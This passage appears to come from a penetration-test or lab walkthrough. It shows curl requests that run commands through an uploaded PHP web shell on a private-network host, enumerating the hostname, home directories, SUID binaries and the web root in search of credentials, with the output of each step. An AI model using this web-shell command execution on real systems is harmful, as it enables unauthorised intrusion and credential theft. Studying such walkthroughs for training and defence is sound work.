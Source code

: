 ```bash
# Check hostname
curl -s "http://172.19.4.10/uploads/shell.php?c=hostname"
```
**Output:** `b0bbbb1eca83`

```bash
# List home directories
curl -s "http://172.19.4.10/uploads/shell.php?c=ls+-la+/home/"
```

**Output:**
```
total 16
drwxr-xr-x 1 root     root     4096 Oct 26 00:31 .
drwxr-xr-x 1 root     root     4096 Oct 26 00:31 ..
drwxr-x--- 2 shopuser shopuser 4096 Oct 26 00:31 shopuser
drwxr-x--- 2 ubuntu   ubuntu   4096 Oct  1 02:10 ubuntu
```

### Searching for SUID Binaries

```bash
curl -s "http://172.19.4.10/uploads/shell.php?c=find+/+-perm+-u=s+-type+f+2>/dev/null" | head -20
```

**Output:**
```
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
```

Standard SUID binaries, nothing unusual.

### Searching for Credentials

```bash
curl -s "http://172.19.4.10/uploads/shell.php?c=ls+-la+/var/www/html"
```

**Output:**
```
total 88
drwxr-xr-x 1 root root  4096 Oct 26 00:31 .
drwxr-xr-x 1 root root  4096 Oct 25 20:27 ..
-rw-r--r-- 1 root root   216 Oct 26 00:30 admin-notes.txt
drwxr-xr-x 2 root root  4096 Oct 26 00:30 assets
-rw-r--r-- 1 root root  6549 Oct 26 00:30 catalog.php
-rw-r--r-- 1 root root   751 Oct 26 00:30 db.php
drwxr-xr-x 2 root root  4096 Oct 26 00:30 images
-rw-r--r-- 1 root root 10671 Oct 25 20:27 index.html
-rw-r--r-- 1 root root 11858 Oct 26 00:30 index.php
-rw-r--r-- 1 root root 10218 Oct 26 00:30 item.php
drwxr-xr-x 2 root root  4096 Oct 26 00:30 pages
lrwxrwxrwx 1 root root    21 Oct 26 00:31 phpmyadmin -> /usr/share/phpmyadmin
drwxrwxrwx 1 root root  4096 Oct 26 02:14 uploads
-rw-r--r-- 1 root root   374 Oct 26 00:30 view.php
```
